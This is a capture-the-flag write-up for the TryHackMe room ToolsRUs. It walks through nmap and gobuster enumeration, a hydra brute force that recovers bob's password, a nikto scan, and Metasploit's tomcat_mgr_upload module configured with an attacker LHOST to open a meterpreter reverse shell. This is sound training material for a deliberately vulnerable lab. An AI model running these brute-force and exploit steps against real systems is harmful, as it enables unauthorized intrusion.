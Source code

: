 ```yaml
---
description: A write-up for TryHackMe Room ToolsRUs
---
```


# ToolsRUs



<div data-full-width="false"><figure><img src="../.gitbook/assets/image (5) (1).png" alt="" width="375"><figcaption></figcaption></figure></div>



### Recon

#### Nmap

Like any other room we'll start with a simple **nmap** scan.

```
nmap -sS -Pn toolsrus.thm
```

<figure><img src="../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

### Enumeration

Lets enumerate a little more using nmap again to find out more about what's running on those ports.

```
nmap -sV -sC -p80,1234,8009,22 toolsrus.thm
```

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

From our nmap scan we can see 4 ports open, 22 for **SSH,** 80 for **HTTP** (Webserver), 1234 for **Apache TomCat**, and 8009 for **ajp13**.&#x20;

Lets check out the website and see if we can find anything there.

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

#### Gobuster

All we get is a header hinting that there may be other subdomains that are up.

Lets do a Gobuster directory bruteforce to find them.

```
gobuster dir -u http://toolsrus.thm -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,git,env,sql,zip,tgz,pem,key -t 400

```

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

You can see we get a lot of results with **Status: 403** meaning we don't have access to them except for **/guidelines** which is also the answer to our first flag.

```
Hey <b>bob</b>, did you update that TomCat server?
```

Visiting **http://toolsrus.thm/guidelines** we find which is the answer to our second flag asking us whose name we find and it is **bob**.

For our 3rd flag we can take a look at the only webpage with a **Status: 401** meaning its: **protected**.

### Bruteforcing

#### Hydra

Taking a look at that protected page I think we can use hydra here. After some research this is the command we have to use.

```
hydra -f -vV -l bob -P /usr/share/wordlists/rockyou.txt $toolsrus.thm http-get /protected
```

\
After 5 seconds and CPU utilization peaking at a whooping 20% we get our password **bubbles**.

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

After getting into **/protected** we find that the page has moved to another port, after trying a couple times, **1234** is what worked.

Here we find **Apache Tomcat/7.0.88.**

Lets run Gobuster again but on this port.

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

#### Nikto

Now lets use Nikto.

```
nikto -host http://toolsrus.thm:1234/manager/html
```

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

As you can see the server is using **Apache/Coyote/1.1** and there's **5** documentations found by Nikto which is more than enough to find an exploit with Metasploit.

### Privilege Escalation

#### Metasploit

```
msf console
search tomcat type:exploit
```

I used Metasploit to look for an exploit and after doing some [research](https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote#Uploading_Java_Executable_with_Metasploit) online we need to use **tomcat\_mgr\_upload**.

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

```
exploit/multi/http/tomcat_mgr_upload
info
```

We can use these 2 commands to select the exploit and understand the payload.

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Let's set up the arguments we need.

```
set RHOSTS <YOUR_TARGET_IP>
set RPORT 1234
set HttpUsername bob
set HttpPassword bubbles
set LHOST <YOUR_ATTACKER_IP>
set LPORT 5771
set TARGET 0
```

Since it's an Apache server we need to set our target to 0 for Java.

Nice! Now we have a meterpreter reverse shell running let's see who we are and our permissions and get our flag!

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

### Conclusion

Overall this was a super fun room to do and wasn't much of a challenge the Nikto search took awhile but I just went and made some coffee while it did it's thing.


